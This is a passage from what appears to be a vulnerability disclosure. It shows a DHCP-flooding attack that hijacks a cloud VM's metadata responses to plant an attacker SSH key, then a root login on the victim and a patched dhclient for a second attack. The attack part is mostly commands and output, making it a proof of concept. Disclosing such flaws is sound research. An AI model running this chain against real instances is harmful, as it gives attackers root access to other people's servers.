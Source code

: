 ```
	Flooding again to revert the original network config
	MAC: 42:01:0a:80:00:04
	Src IP: 10.128.0.2
	Dst IP: 10.128.0.4
	New IP: 10.128.0.4
	New hostname:
	New route: 10.128.0.1
	ACK: true
	Offer: false
	Oneshot: false
```

After this point, the output of the screen where meta.py is running is flooded with lines like this:

```
	34.67.219.89 - - [27/Sep/2020 18:40:06] "GET /computeMetadata/v1//?recursive=true&alt=json&wait_for_change=true&timeout_sec=60&last_etag=NONE HTTP/1.1" 200 -
```

At this point, I can login to victim box using the new (attacker controlled) SSH key.

```
	root@builder:/opt/_tmp/dhcp/exploit# ssh -i id_rsa root@34.67.219.89
	Linux metadata 4.19.0-11-cloud-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

	The programs included with the Debian GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.

	Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
	permitted by applicable law.
	root@metadata:~# id
	uid=0(root) gid=0(root) groups=0(root),1000(google-sudoers)
```

This was tested using the official Debian 10 images.




## Attack #2

To verify this setup, I built a slightly modified version of dhclient; besides some additional log lines the only important change is the 
increased frequency of lease renewals:

```
*** dhclient.c.orig     2020-09-29 23:38:16.322296529 +0200
--- dhclient.c  2020-09-29 22:51:11.000000000 +0200
*************** void bind_lease (client)
*** 1573,1578 ****
--- 1573,1580 ----
          client->new = NULL;

          /* Set up a timeout to start the renewal process. */
+         client->active->renewal = cur_time + 5; // hack!
+
          tv.tv_sec = client->active->renewal;
          tv.tv_usec = ((client->active->renewal - cur_tv.tv_sec) > 1) ?
                          myrandom("active renewal") % 1000000 : cur_tv.tv_usec;
```
